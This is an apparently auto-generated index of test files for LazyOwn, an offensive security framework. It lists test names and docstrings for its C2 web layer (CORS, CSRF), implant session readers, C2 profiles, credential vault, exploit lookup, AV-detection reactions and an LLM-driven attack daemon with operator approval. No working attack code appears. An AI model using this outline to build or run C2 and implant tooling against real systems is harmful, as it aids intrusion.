- `test_surrogate_chars_are_stripped` (line 100) `def test_surrogate_chars_are_stripped(self, capsys)`
- `test_config_attribute_and_item_access` (line 113) `def test_config_attribute_and_item_access(self)`
- `test_config_missing_key_returns_none` (line 121) `def test_config_missing_key_returns_none(self)`
- `test_load_payload_reads_real_file` (line 127) `def test_load_payload_reads_real_file(self, tmp_path, monkeypatch)`
- `test_save_payload_is_atomic` (line 136) `def test_save_payload_is_atomic(self, tmp_path)`
- `test_save_payload_creates_parent_dirs` (line 147) `def test_save_payload_creates_parent_dirs(self, tmp_path)`
- `test_roundtrip` (line 159) `def test_roundtrip(self)`
- `test_returns_bytearray` (line 168) `def test_returns_bytearray(self)`
- `test_empty_key_raises` (line 175) `def test_empty_key_raises(self)`
- `test_matches_legacy_known_vector` (line 182) `def test_matches_legacy_known_vector(self)`
- `test_check_rhost_truthy` (line 193) `def test_check_rhost_truthy(self)`
- `test_check_rhost_empty_returns_false` (line 199) `def test_check_rhost_empty_returns_false(self, capsys)`
- `test_check_lhost_empty` (line 206) `def test_check_lhost_empty(self, capsys)`
- `test_check_lport_zero_falsy` (line 213) `def test_check_lport_zero_falsy(self, capsys)`
- `test_check_port_valid_range` (line 219) `def test_check_port_valid_range(self)`
- `test_check_port_invalid` (line 227) `def test_check_port_invalid(self, capsys)`
- `test_protocols_importable` (line 239) `def test_protocols_importable(self)`
- `test_selector_protocol_accepts_conforming_object` (line 246) `def test_selector_protocol_accepts_conforming_object(self)`
- `test_llm_backend_protocol_rejects_nonconforming` (line 258) `def test_llm_backend_protocol_rejects_nonconforming(self)`
- `test_symbol_is_re_exported` (line 303) `def test_symbol_is_re_exported(self, name)`
- `test_utils_no_inline_config_class` (line 309) `def test_utils_no_inline_config_class(self)` - *utils.py must not redefine Config — it must come from core.*
- `test_utils_no_inline_load_payload` (line 315) `def test_utils_no_inline_load_payload(self)` - *utils.py must not redefine load_payload — it must come from core.*
- `test_utils_no_inline_xor` (line 321) `def test_utils_no_inline_xor(self)`
- `test_utils_no_inline_validators` (line 326) `def test_utils_no_inline_validators(self)`
- `test_utils_no_inline_print_helpers` (line 335) `def test_utils_no_inline_print_helpers(self)`
- `test_utils_imports_from_core` (line 344) `def test_utils_imports_from_core(self)`
- `test_parses` (line 358) `def test_parses(self)`
- `test_imports_in_clean_subprocess` (line 361) `def test_imports_in_clean_subprocess(self)`
- `test_load_payload_via_utils_returns_payload` (line 365) `def test_load_payload_via_utils_returns_payload(self)`
- `suggest` (line 253) `def suggest(self, target, phase, context)`

#### `test_core_command_bridge.py`
**Path:** `tests/test_core_command_bridge.py`
**File Doc:** *Tests for core.command_bridge — CommandBridge lazy shell facade.*

**Classes:**
- `TestCommandBridgeInitialization` (line 25) `class TestCommandBridgeInitialization` - *Tests for :class:`CommandBridge` construction and initial state.*
- `TestCommandBridgeOnecmd` (line 51) `class TestCommandBridgeOnecmd` - *Tests for :meth:`CommandBridge.onecmd`.*
- `TestCommandBridgeOneCmdAlias` (line 96) `class TestCommandBridgeOneCmdAlias` - *Tests for :meth:`CommandBridge.one_cmd` and :meth:`CommandBridge.execute`.*

**Functions:**
- `_reset_bridge_singleton` (line 16) `def _reset_bridge_singleton()` - *Reset the module-level singleton before each test.*
- `call_onecmd` (line 81) `def call_onecmd()`

**Methods:**
- `test_ready_is_false_initially` (line 28) `def test_ready_is_false_initially(self)` - *CommandBridge is not ready until _ensure_shell succeeds.*
- `test_error_is_none_initially` (line 35) `def test_error_is_none_initially(self)` - *CommandBridge.error is None before any initialization attempt.*
- `test_get_bridge_returns_same_singleton` (line 42) `def test_get_bridge_returns_same_singleton(self, _reset_bridge_singleton)` - *get_bridge always returns the same CommandBridge instance.*
- `test_empty_command_returns_empty_string` (line 54) `def test_empty_command_returns_empty_string(self)` - *onecmd returns an empty string when given an empty or blank command.*
- `test_nonexistent_command_returns_error_string` (line 62) `def test_nonexistent_command_returns_error_string(self)` - *onecmd does not crash and handles init failures gracefully.*
- `test_thread_safety_multiple_threads` (line 74) `def test_thread_safety_multiple_threads(self)` - *Concurrent onecmd calls from multiple threads do not crash.*
- `test_empty_command_returns_empty` (line 99) `def test_empty_command_returns_empty(self)` - *one_cmd returns an empty string when given an empty command.*
- `test_execute_alias_returns_string` (line 107) `def test_execute_alias_returns_string(self)` - *execute delegates to one_cmd and returns a string for empty input.*
- `test_nonexistent_lazy_loaded_cmd_returns_error` (line 116) `def test_nonexistent_lazy_loaded_cmd_returns_error(self)` - *one_cmd reports an unknown command to the operator.*

#### `test_core_config.py`
**Path:** `tests/test_core_config.py`
**File Doc:** *Tests for core.config — Config wrapper, load_payload, save_payload, load_and_validate.*

**Classes:**
- `TestLoadPayload` (line 15) `class TestLoadPayload` - *Tests for :func:`core.config.load_payload`.*
- `TestSavePayload` (line 76) `class TestSavePayload` - *Tests for :func:`core.config.save_payload`.*
- `TestConfig` (line 99) `class TestConfig` - *Tests for the :class:`core.config.Config` wrapper.*
- `TestLoadAndValidate` (line 149) `class TestLoadAndValidate` - *Tests for :func:`core.config.load_and_validate`.*

**Methods:**
- `test_returns_dict_with_expected_keys` (line 18) `def test_returns_dict_with_expected_keys(self, tmp_path)` - *load_payload returns a dictionary containing the keys that were saved.*
- `test_roundtrips_values_correctly` (line 29) `def test_roundtrips_values_correctly(self, tmp_path)` - *Values survive a full save-then-load cycle unchanged.*
- `test_handles_malformed_json` (line 45) `def test_handles_malformed_json(self, tmp_path)` - *load_payload raises JSONDecodeError when the file is not valid JSON.*
- `test_copies_from_example_when_payload_missing` (line 54) `def test_copies_from_example_when_payload_missing(self, tmp_path)` - *When payload.json is missing but payload.example.json exists, copy from the example.*
- `test_raises_when_both_payload_and_example_missing` (line 67) `def test_raises_when_both_payload_and_example_missing(self, tmp_path)` - *load_payload raises FileNotFoundError when neither payload nor example exists.*
- `test_atomic_write_no_leftover_tmp` (line 79) `def test_atomic_write_no_leftover_tmp(self, tmp_path)` - *save_payload writes atomically with no .tmp files left behind.*
- `test_creates_parent_directories` (line 90) `def test_creates_parent_directories(self, tmp_path)` - *save_payload creates intermediate directories that do not exist.*
- `test_attribute_access_for_known_keys` (line 102) `def test_attribute_access_for_known_keys(self)` - *Config attributes match the underlying dictionary keys.*
- `test_item_access_for_known_keys` (line 111) `def test_item_access_for_known_keys(self)` - *Config[...] delegates to attribute access.*
- `test_unknown_key_returns_none` (line 118) `def test_unknown_key_returns_none(self)` - *Missing keys return None instead of raising.*
- `test_as_params_returns_shallow_copy` (line 126) `def test_as_params_returns_shallow_copy(self)` - *as_params returns a shallow copy of the underlying dict.*
- `test_aes_key_is_resolved_and_hex` (line 137) `def test_aes_key_is_resolved_and_hex(self)` - *Config resolves or generates a 64-char hex aes_key on construction.*
- `test_returns_validation_results_dict` (line 152) `def test_returns_validation_results_dict(self, tmp_path)` - *load_and_validate returns a dict with payload, valid, warnings, errors, issues.*
- `test_missing_required_fields_reported_as_errors` (line 169) `def test_missing_required_fields_reported_as_errors(self, tmp_path)` - *Required fields missing from the payload yield error-level issues.*
- `test_invalid_types_reported_as_warnings` (line 180) `def test_invalid_types_reported_as_warnings(self, tmp_path)` - *Malformed values produce warning-level issues.*

#### `test_core_defaults.py`
**Path:** `tests/test_core_defaults.py`
**File Doc:** *Build-time defaults are data, not literals.  SDD contract: ``config/defaults.toml`` owns fallback ports, wordlists and paths; ``core/defaults.py`` is its only reader. Migrated call sites must resolve through the typed helpers so editing the TOML changes behavior without touching Python.*

**Classes:**
- `TestLoader` (line 28) `class TestLoader`
- `TestCallSitesMigrated` (line 50) `class TestCallSitesMigrated`
- `TestWizardAndGui` (line 84) `class TestWizardAndGui`
- `TestGuiFunctional` (line 117) `class TestGuiFunctional`

**Functions:**
- `_fresh_cache` (line 22) `def _fresh_cache()`

**Methods:**
- `test_sections_present` (line 29) `def test_sections_present(self)`
- `test_typed_helpers` (line 33) `def test_typed_helpers(self)`
- `test_missing_file_fails_closed` (line 41) `def test_missing_file_fails_closed(self, tmp_path)`
- `test_get_fallback` (line 45) `def test_get_fallback(self)`
- `test_no_hardcoded_rockyou_in_logic` (line 58) `def test_no_hardcoded_rockyou_in_logic(self)`
- `test_no_hardcoded_default_lport` (line 68) `def test_no_hardcoded_default_lport(self)`
- `test_helpers_imported` (line 78) `def test_helpers_imported(self)`
- `test_wizard_command_exists` (line 85) `def test_wizard_command_exists(self)`
- `test_overrides_map_to_schema_keys` (line 96) `def test_overrides_map_to_schema_keys(self)`
- `test_gui_routes_exist` (line 104) `def test_gui_routes_exist(self)`
- `test_gui_never_rewrites_toml` (line 110) `def test_gui_never_rewrites_toml(self)`
- `client` (line 119) `def client(self, tmp_path, monkeypatch)`
- `test_get_defaults` (line 130) `def test_get_defaults(self, client)`
- `test_post_defaults_rejects_unknown` (line 137) `def test_post_defaults_rejects_unknown(self, client)`
- `test_post_defaults_rejects_bad_port` (line 141) `def test_post_defaults_rejects_bad_port(self, client)`

#### `test_core_executor.py`
**Path:** `tests/test_core_executor.py`
**File Doc:** *Tests for core.executor — safe_run and run_shell subprocess wrappers.*

**Classes:**
- `TestSafeRun` (line 15) `class TestSafeRun` - *Tests for :func:`core.executor.safe_run`.*
- `TestRunShell` (line 84) `class TestRunShell` - *Tests for :func:`core.executor.run_shell`.*

**Methods:**
- `test_echo_hello_returns_completed_process_with_stdout` (line 18) `def test_echo_hello_returns_completed_process_with_stdout(self)` - *safe_run with a list returns a CompletedProcess and captures stdout.*
- `test_false_command_returns_nonzero` (line 27) `def test_false_command_returns_nonzero(self)` - *safe_run with the false command returns a non-zero exit code.*
- `test_empty_list_raises_value_error` (line 34) `def test_empty_list_raises_value_error(self)` - *safe_run raises ValueError when given an empty list.*
- `test_empty_string_raises_value_error` (line 41) `def test_empty_string_raises_value_error(self)` - *safe_run raises ValueError when given a whitespace-only string.*
- `test_timeout_raises_timeout_expired` (line 48) `def test_timeout_raises_timeout_expired(self)` - *safe_run raises TimeoutExpired when the command exceeds the timeout.*
- `test_null_bytes_in_list_arg_raises_value_error` (line 55) `def test_null_bytes_in_list_arg_raises_value_error(self)` - *safe_run rejects null bytes inside list arguments.*
- `test_null_bytes_in_string_raises_value_error` (line 62) `def test_null_bytes_in_string_raises_value_error(self)` - *safe_run rejects null bytes inside a command string.*
- `test_bad_type_raises_type_error` (line 69) `def test_bad_type_raises_type_error(self)` - *safe_run raises TypeError when command is neither str nor list.*
- `test_timeout_below_minimum_raises_value_error` (line 76) `def test_timeout_below_minimum_raises_value_error(self)` - *safe_run raises ValueError when timeout is below the valid range.*
- `test_echo_hello_returns_stdout_string` (line 87) `def test_echo_hello_returns_stdout_string(self)` - *run_shell returns stripped stdout of a successful command.*
- `test_nonzero_exit_raises_called_process_error` (line 95) `def test_nonzero_exit_raises_called_process_error(self)` - *run_shell raises CalledProcessError when the command exits non-zero.*
- `test_pipes_and_redirects_work` (line 102) `def test_pipes_and_redirects_work(self)` - *run_shell supports shell-builtins like pipes.*
- `test_stdout_is_stripped_of_whitespace` (line 109) `def test_stdout_is_stripped_of_whitespace(self)` - *run_shell strips leading and trailing whitespace from stdout.*

#### `test_core_modules.py`
**Path:** `tests/test_core_modules.py`
**File Doc:** *tests/test_core_modules.py Integration test suite for LazyOwn core modules.*

**Classes:**
- `_User` (line 295) `class _User(UserMixin)`

**Functions:**
- `test_obs_parser_nmap` (line 16) `def test_obs_parser_nmap()`
- `test_obs_parser_empty` (line 31) `def test_obs_parser_empty()`
- `test_obs_parser_error` (line 39) `def test_obs_parser_error()`
- `test_world_model_basic` (line 47) `def test_world_model_basic(tmp_path)`
- `test_world_model_persistence` (line 57) `def test_world_model_persistence(tmp_path)`
- `test_world_model_from_findings` (line 68) `def test_world_model_from_findings()`
- `test_playbook_engine_derive_save_load` (line 79) `def test_playbook_engine_derive_save_load(tmp_path)`
- `test_playbook_engine_execute` (line 90) `def test_playbook_engine_execute()`
- `test_cve_matcher` (line 115) `def test_cve_matcher()`
- `test_cvss_critical` (line 124) `def test_cvss_critical()`
- `test_cvss_medium` (line 132) `def test_cvss_medium()`
- `test_cvss_from_nvd` (line 139) `def test_cvss_from_nvd()`
- `test_report_with_data` (line 148) `def test_report_with_data(tmp_path)`
- `test_report_empty` (line 170) `def test_report_empty(tmp_path)`
- `test_memory_remember_recall` (line 180) `def test_memory_remember_recall(tmp_path)`
- `test_memory_by_host` (line 190) `def test_memory_by_host(tmp_path)`
- `test_memory_export` (line 200) `def test_memory_export(tmp_path)`
- `test_llm_evaluator` (line 215) `def test_llm_evaluator(tmp_path)`
- `test_llm_evaluator_report` (line 226) `def test_llm_evaluator_report(tmp_path)`
- `test_llm_evaluator_empty` (line 238) `def test_llm_evaluator_empty(tmp_path)`
- `test_searchsploit_graceful` (line 246) `def test_searchsploit_graceful()`
- `test_searchsploit_client` (line 253) `def test_searchsploit_client()`
- `test_misp_export` (line 262) `def test_misp_export(tmp_path)`
- `test_dashboard_endpoints` (line 290) `def test_dashboard_endpoints()`
- `test_collab_endpoints` (line 320) `def test_collab_endpoints()`
- `test_c2_profile_builtins` (line 340) `def test_c2_profile_builtins()`
- `test_c2_profile_jitter` (line 351) `def test_c2_profile_jitter()`
- `test_c2_profile_save_load` (line 359) `def test_c2_profile_save_load(tmp_path)`
- `test_config_store` (line 370) `def test_config_store(tmp_path)`
- `test_mcp_tools_registered` (line 391) `def test_mcp_tools_registered()`
- `test_bridge_catalog_phases` (line 417) `def test_bridge_catalog_phases()`
- `test_bridge_by_phase` (line 429) `def test_bridge_by_phase()`
- `test_bridge_service_match` (line 439) `def test_bridge_service_match()`
- `test_bridge_build_command` (line 448) `def test_bridge_build_command()`
- `test_bridge_suggest` (line 464) `def test_bridge_suggest()`
- `test_bridge_suggest_with_services` (line 475) `def test_bridge_suggest_with_services()`
- `test_bridge_suggest_excluded` (line 485) `def test_bridge_suggest_excluded()`
- `test_bridge_list_all_phases` (line 497) `def test_bridge_list_all_phases()`
- `test_bridge_phase_mapper` (line 508) `def test_bridge_phase_mapper()`
- `test_bridge_full_catalog_count` (line 522) `def test_bridge_full_catalog_count()`
- `test_bridge_all_phases_populated` (line 529) `def test_bridge_all_phases_populated()`
- `test_bridge_suggest_sequence` (line 550) `def test_bridge_suggest_sequence()`
- `test_bridge_tag_selector` (line 561) `def test_bridge_tag_selector()`
- `test_bridge_suggest_kerberos_phase` (line 571) `def test_bridge_suggest_kerberos_phase()`
- `test_bridge_suggest_windows_os` (line 579) `def test_bridge_suggest_windows_os()`
- `test_bridge_suggest_linux_os` (line 589) `def test_bridge_suggest_linux_os()`
- `test_bridge_catalog_summary_has_all_phases` (line 599) `def test_bridge_catalog_summary_has_all_phases()`
- `test_session_reader_empty` (line 614) `def test_session_reader_empty(tmp_path)`
- `test_session_reader_implant_csv` (line 625) `def test_session_reader_implant_csv(tmp_path)`
- `test_session_reader_privileged_sessions` (line 642) `def test_session_reader_privileged_sessions(tmp_path)`
- `test_session_reader_tasks` (line 663) `def test_session_reader_tasks(tmp_path)`
- `test_session_reader_discovered_hosts` (line 679) `def test_session_reader_discovered_hosts(tmp_path)`
- `test_session_reader_skips_non_implant_logs` (line 688) `def test_session_reader_skips_non_implant_logs(tmp_path)`
- `test_reactive_engine_av_detection` (line 702) `def test_reactive_engine_av_detection()`
- `test_reactive_engine_privesc_sudo` (line 717) `def test_reactive_engine_privesc_sudo()`
- `test_reactive_engine_credential_found` (line 728) `def test_reactive_engine_credential_found()`
- `test_reactive_engine_new_host` (line 737) `def test_reactive_engine_new_host()`
- `test_reactive_engine_shell_error` (line 746) `def test_reactive_engine_shell_error()`
- `test_reactive_engine_no_signal` (line 755) `def test_reactive_engine_no_signal()`
- `test_reactive_engine_priority_ordering` (line 766) `def test_reactive_engine_priority_ordering()`
- `test_session_rag_init` (line 778) `def test_session_rag_init()`
- `test_session_rag_stats` (line 785) `def test_session_rag_stats()`
- `test_session_rag_chunk_text` (line 796) `def test_session_rag_chunk_text()`
- `test_session_rag_index_new` (line 807) `def test_session_rag_index_new()`
- `test_session_rag_query_returns_list` (line 817) `def test_session_rag_query_returns_list()`
- `test_session_rag_context_for_step` (line 828) `def test_session_rag_context_for_step()`
- `test_threat_model_builder_init` (line 840) `def test_threat_model_builder_init()`
- `test_threat_model_build` (line 847) `def test_threat_model_build()`
- `test_threat_model_summary_fields` (line 860) `def test_threat_model_summary_fields()`
- `test_threat_model_ttps_have_required_fields` (line 872) `def test_threat_model_ttps_have_required_fields()`
- `test_threat_model_detection_rules_structure` (line 885) `def test_threat_model_detection_rules_structure()`
- `test_threat_model_load_after_build` (line 898) `def test_threat_model_load_after_build()`
- `test_threat_model_ioc_types` (line 908) `def test_threat_model_ioc_types()`
- `test_session_rag_fallback_persistence` (line 919) `def test_session_rag_fallback_persistence(tmp_path)` - *Keyword fallback must survive a save/load cycle.*
- `test_session_rag_fallback_dedup` (line 939) `def test_session_rag_fallback_dedup()` - *Adding the same doc_id twice must not duplicate the entry.*
- `test_session_rag_fallback_ring_buffer` (line 949) `def test_session_rag_fallback_ring_buffer()` - *Ring-buffer must cap at MAX_FALLBACK_DOCS and evict oldest.*
- `test_threat_model_has_purple_team` (line 971) `def test_threat_model_has_purple_team()`
- `test_threat_model_purple_team_structure` (line 980) `def test_threat_model_purple_team_structure()`
- `test_threat_model_purple_gaps_sorted_first` (line 996) `def test_threat_model_purple_gaps_sorted_first()`
- `test_threat_model_purple_coverage_field` (line 1013) `def test_threat_model_purple_coverage_field()`
- `test_atomic_enricher_builds` (line 1028) `def test_atomic_enricher_builds()`
- `test_atomic_enricher_complexity_values` (line 1045) `def test_atomic_enricher_complexity_values()`
- `test_atomic_enricher_scope_values` (line 1055) `def test_atomic_enricher_scope_values()`
- `test_atomic_query_keyword` (line 1065) `def test_atomic_query_keyword()`
- `test_atomic_query_mitre_prefix` (line 1081) `def test_atomic_query_mitre_prefix()`
- `test_atomic_query_platform_filter` (line 1092) `def test_atomic_query_platform_filter()`
- `test_atomic_query_no_prereqs` (line 1104) `def test_atomic_query_no_prereqs()`
- `test_atomic_query_include_command` (line 1115) `def test_atomic_query_include_command()`
- `test_atomic_query_empty_returns_list` (line 1127) `def test_atomic_query_empty_returns_list()` - *Impossible filter combination returns empty list gracefully.*
- `test_parquet_db_query_atomic` (line 1139) `def test_parquet_db_query_atomic()`
- `test_session_rag_index_parquet_sources` (line 1150) `def test_session_rag_index_parquet_sources()`
- `load_user` (line 305) `def load_user(user_id)`

**Methods:**
- `__init__` (line 296) `def __init__(self, uid)`

#### `test_cors_behavior.py`
**Path:** `tests/test_cors_behavior.py`
**File Doc:** *BDD behavior scenarios for the CORS policy contract.  These scenarios describe the user-visible behavior of the CORS policy in plain language, then exercise it. They are intentionally distinct from the unit tests in :mod:`tests.test_cors_policy` so the contract has both a fine-grained check and a coarse-grained one.*

**Functions:**
- `test_given_wildcard_in_prod_when_resolving_then_raises` (line 16) `def test_given_wildcard_in_prod_when_resolving_then_raises()` - *Given a PROD env with a wildcard, when origins are resolved, then raise.*
- `test_given_empty_in_dev_when_resolving_then_falls_back_to_lhost` (line 23) `def test_given_empty_in_dev_when_resolving_then_falls_back_to_lhost()` - *Given DEV env with empty allowlist, when resolved, then http+https://lhost are used.*
- `test_given_unknown_origin_when_handshake_then_denied` (line 31) `def test_given_unknown_origin_when_handshake_then_denied()` - *Given an origin not in the allowlist, when checked, then it is denied.*
- `test_given_matching_origin_when_handshake_then_allowed` (line 41) `def test_given_matching_origin_when_handshake_then_allowed()` - *Given an origin in the allowlist, when checked, then it is allowed.*

#### `test_cors_policy.py`
**Path:** `tests/test_cors_policy.py`
**File Doc:** *TDD tests for the CORS policy contract.  Contract: ``lazyc2.security.cors.CorsPolicy.resolve_origins(config)`` returns the allowlist of origins the C2 web layer is willing to serve.  Invariants under test:  1. Wildcard ``*`` is rejected outright (never expose Socket.IO to every origin). 2. In ``PROD`` an empty allowlist raises ``CorsConfigError``. 3. In ``DEV`` an empty allowlist falls back to ``https://{lhost}``. 4. CSV strings are split, trimmed, and empty entries skipped. 5. ``"*"`` entries inside a CSV are dropped, not propagated. 6. ``is_allowed(origin)`` accepts exact matches and denies everything else. 7. ``is_allowed`` tolerates a missing port when comparing hostnames.*

**Classes:**
- `TestResolveOrigins` (line 24) `class TestResolveOrigins` - *Verify origin allowlist derivation from configuration.*
- `TestIsAllowed` (line 78) `class TestIsAllowed` - *Verify the runtime origin check.*
- `TestFlaskSocketIOIntegration` (line 106) `class TestFlaskSocketIOIntegration` - *Verify the integration helper used by ``lazyc2.py``.*

**Methods:**
- `test_wildcard_is_rejected` (line 27) `def test_wildcard_is_rejected(self)`
- `test_wildcard_in_csv_is_dropped` (line 31) `def test_wildcard_in_csv_is_dropped(self)`
- `test_prod_empty_allowlist_raises` (line 42) `def test_prod_empty_allowlist_raises(self)`
- `test_dev_empty_allowlist_falls_back_to_lhost` (line 46) `def test_dev_empty_allowlist_falls_back_to_lhost(self)`
- `test_csv_is_split_and_trimmed` (line 52) `def test_csv_is_split_and_trimmed(self)`
- `test_list_input_is_preserved` (line 61) `def test_list_input_is_preserved(self)`
- `test_empty_entries_in_csv_are_skipped` (line 69) `def test_empty_entries_in_csv_are_skipped(self)`
- `test_exact_match_is_allowed` (line 81) `def test_exact_match_is_allowed(self)`
- `test_non_matching_origin_is_denied` (line 85) `def test_non_matching_origin_is_denied(self)`
- `test_empty_origin_is_denied` (line 89) `def test_empty_origin_is_denied(self)`
- `test_hostname_match_ignores_port` (line 93) `def test_hostname_match_ignores_port(self)`
- `test_scheme_mismatch_is_denied` (line 101) `def test_scheme_mismatch_is_denied(self)`
- `test_origins_for_socketio` (line 109) `def test_origins_for_socketio(self)`
- `test_origins_for_socketio_dev_fallback` (line 119) `def test_origins_for_socketio_dev_fallback(self)`

#### `test_cors_socketio_regression.py`
**Path:** `tests/test_cors_socketio_regression.py`
**File Doc:** *Regression tests for the Socket.IO origin allowlist.  The original wire-up broke xterm.js because flask-socketio does an exact match between the request ``Origin`` header and the ``cors_allowed_origins`` list. The browser sends ``https://127.0.0.1:5000`` (with port) but the list only had ``https://127.0.0.1`` (no port), so the WebSocket upgrade was rejected with HTTP 400.  This test ensures the policy returns the allowlist expanded with the common C2 ports for the configured lhost so the upgrade succeeds.*

**Classes:**
- `TestOriginsForSocketIO` (line 20) `class TestOriginsForSocketIO` - *Verify the list fed to ``SocketIO(cors_allowed_origins=...)``.*

**Methods:**
- `test_dev_empty_includes_lhost_with_common_ports` (line 23) `def test_dev_empty_includes_lhost_with_common_ports(self)`
- `test_dev_empty_includes_http_and_https` (line 29) `def test_dev_empty_includes_http_and_https(self)`
- `test_dev_empty_includes_localhost_alias` (line 35) `def test_dev_empty_includes_localhost_alias(self)`
- `test_explicit_origins_kept_with_port_appended` (line 40) `def test_explicit_origins_kept_with_port_appended(self)`
- `test_explicit_origins_deduped` (line 51) `def test_explicit_origins_deduped(self)`
- `test_prod_raises_when_empty` (line 61) `def test_prod_raises_when_empty(self)`
- `test_wildcard_rejected` (line 65) `def test_wildcard_rejected(self)`

#### `test_credential_vault.py`
**Path:** `tests/test_credential_vault.py`
**File Doc:** *Tests for core/credential_vault.py*

**Classes:**
- `TestCheckDefaults` (line 18) `class TestCheckDefaults`
- `TestSealUnseal` (line 56) `class TestSealUnseal`
- `TestSecureDefaults` (line 116) `class TestSecureDefaults`

**Methods:**
- `test_default_values_detected` (line 19) `def test_default_values_detected(self)`
- `test_clean_payload_no_warnings` (line 24) `def test_clean_payload_no_warnings(self)`
- `test_empty_keys_flagged` (line 39) `def test_empty_keys_flagged(self)`
- `test_changeme_variants` (line 44) `def test_changeme_variants(self)`
- `test_roundtrip` (line 57) `def test_roundtrip(self)`
- `test_empty_string_passthrough` (line 64) `def test_empty_string_passthrough(self)`
- `test_plaintext_passthrough` (line 68) `def test_plaintext_passthrough(self)`
- `test_different_key_fails` (line 72) `def test_different_key_fails(self)`
- `test_payload_roundtrip` (line 80) `def test_payload_roundtrip(self)`
- `test_sensitive_keys_encrypted` (line 98) `def test_sensitive_keys_encrypted(self)`
- `test_non_sensitive_keys_untouched` (line 107) `def test_non_sensitive_keys_untouched(self)`
- `test_generates_random_values` (line 117) `def test_generates_random_values(self)`
- `test_api_key_is_longer` (line 124) `def test_api_key_is_longer(self)`

#### `test_credentials_rotation.py`
**Path:** `tests/test_credentials_rotation.py`
**File Doc:** *Tests for CredMigratedCommandSet._rotate_existing_credentials.  The helper backs up ``sessions/credentials.txt`` before ``createcredentials`` overwrites it. It must tolerate the file vanishing between the existence check and the rename (a concurrent CLI + daemon writer), an empty or colon-less first line, and rename failures, instead of raising ``FileNotFoundError`` and aborting the command as it did before.  The method moved from ``LazyOwnShell`` to ``CredMigratedCommandSet`` in the monolith split. It does not use ``self``, so it is exercised as an unbound function with ``None`` as the instance to avoid the cost of constructing the full shell.*

**Functions:**
- `in_tmp_sessions` (line 32) `def in_tmp_sessions(tmp_path, monkeypatch)`
- `test_missing_file_returns_none` (line 38) `def test_missing_file_returns_none(in_tmp_sessions)`
- `test_existing_file_is_backed_up_by_username` (line 42) `def test_existing_file_is_backed_up_by_username(in_tmp_sessions)`
- `test_empty_file_uses_fallback_username` (line 51) `def test_empty_file_uses_fallback_username(in_tmp_sessions)`
- `test_line_without_colon_uses_whole_token` (line 58) `def test_line_without_colon_uses_whole_token(in_tmp_sessions)`
- `test_race_on_rename_is_swallowed` (line 65) `def test_race_on_rename_is_swallowed(in_tmp_sessions, monkeypatch)`
- `test_oserror_on_rename_is_swallowed` (line 76) `def test_oserror_on_rename_is_swallowed(in_tmp_sessions, monkeypatch)`
- `_boom` (line 69) `def _boom()`
- `_boom` (line 80) `def _boom()`

#### `test_csrf_behavior.py`
**Path:** `tests/test_csrf_behavior.py`
**File Doc:** *BDD behavior scenarios for the CSRF contract.*

**Classes:**
- `_Request` (line 8) `class _Request`

**Functions:**
- `test_given_authenticated_post_without_token_then_rejected` (line 16) `def test_given_authenticated_post_without_token_then_rejected()` - *Given an authenticated operator POST without a token, the gate denies.*
- `test_given_authenticated_post_with_valid_token_then_allowed` (line 23) `def test_given_authenticated_post_with_valid_token_then_allowed()` - *Given a valid token echoed back, the gate allows the mutation.*
- `test_given_login_path_without_token_then_allowed` (line 35) `def test_given_login_path_without_token_then_allowed()` - *Given an exempt path (login), the gate allows without a token.*
- `test_given_get_request_then_always_allowed` (line 42) `def test_given_get_request_then_always_allowed()` - *Given a safe HTTP method, the gate always allows regardless of token.*

**Methods:**
- `__init__` (line 9) `def __init__(self, method, path, headers, form)`

#### `test_csrf_policy.py`
**Path:** `tests/test_csrf_policy.py`
**File Doc:** *TDD tests for the CSRF policy contract.  Contract: ``lazyc2.security.csrf.CSRFPolicy`` issues per-session tokens that must be echoed back by the client on every mutating request, except for configured exemptions (login, logout, beacon endpoints).  Invariants under test:  1. ``issue(session_id)`` returns a 32-byte URL-safe token. 2. The token is bound to the session id: same session -> same token. 3. ``validate(session_id, token)`` returns ``True`` only on a constant-time match between the stored and the candidate token. 4. ``validate`` returns ``False`` on missing, empty, or wrong token. 5. ``validate`` returns ``False`` for an unknown session id. 6. The exempt path set is honoured: an exempt path on a session without a token still passes. 7. ``extract_header`` and ``extract_form`` parse tokens from request-shaped objects.*

**Classes:**
- `_FakeRequest` (line 26) `class _FakeRequest`
- `TestTokenIssuance` (line 34) `class TestTokenIssuance` - *Verify the issuer contract.*
- `TestTokenValidation` (line 56) `class TestTokenValidation` - *Verify the validator contract.*
- `TestExemptions` (line 81) `class TestExemptions` - *Verify that configured paths bypass the check.*
- `TestRequestExtraction` (line 96) `class TestRequestExtraction` - *Verify the request-shaped helper.*
- `TestCheckRequest` (line 123) `class TestCheckRequest` - *Verify the full request check combining exemptions and validation.*

**Methods:**
- `__init__` (line 27) `def __init__(self, headers, form, path, method)`
- `test_issue_returns_string` (line 37) `def test_issue_returns_string(self)`
- `test_issue_is_deterministic_for_same_session` (line 43) `def test_issue_is_deterministic_for_same_session(self)`
- `test_issue_is_unique_across_sessions` (line 49) `def test_issue_is_unique_across_sessions(self)`
- `test_valid_token_passes` (line 59) `def test_valid_token_passes(self)`
- `test_missing_token_fails` (line 64) `def test_missing_token_fails(self)`
- `test_unknown_session_fails` (line 70) `def test_unknown_session_fails(self)`
- `test_wrong_token_fails` (line 75) `def test_wrong_token_fails(self)`
- `test_exempt_path_passes_without_token` (line 84) `def test_exempt_path_passes_without_token(self)`
- `test_non_exempt_path_fails_check` (line 90) `def test_non_exempt_path_fails_check(self)`
- `test_extract_header` (line 99) `def test_extract_header(self)`
- `test_extract_form` (line 104) `def test_extract_form(self)`
- `test_extract_header_takes_precedence` (line 109) `def test_extract_header_takes_precedence(self)`
- `test_extract_returns_none_when_missing` (line 117) `def test_extract_returns_none_when_missing(self)`
- `test_safe_methods_bypass` (line 126) `def test_safe_methods_bypass(self)`
- `test_mutating_without_token_fails` (line 131) `def test_mutating_without_token_fails(self)`
- `test_mutating_with_valid_token_passes` (line 136) `def test_mutating_with_valid_token_passes(self)`
- `test_exempt_path_with_no_token_still_passes` (line 146) `def test_exempt_path_with_no_token_still_passes(self)`

#### `test_daemon_control.py`
**Path:** `tests/test_daemon_control.py`
**File Doc:** *Unit tests for skills.daemon_control.  Coverage:  * :class:`ControlState` and :class:`PendingAction` round-trip (to_dict / from_dict, malformed input). * :class:`DaemonControl` mode transitions, veto add / remove / clear, focus replacement, atomic file persistence. * Approval state machine: propose / decide / consume, TTL expiry. * :func:`wait_for_decision` and :func:`wait_until_unpaused` honour injectable clock and sleep functions for deterministic testing.*

**Functions:**
- `sessions_dir` (line 46) `def sessions_dir(tmp_path)`
- `test_default_state_roundtrip` (line 52) `def test_default_state_roundtrip(sessions_dir)`
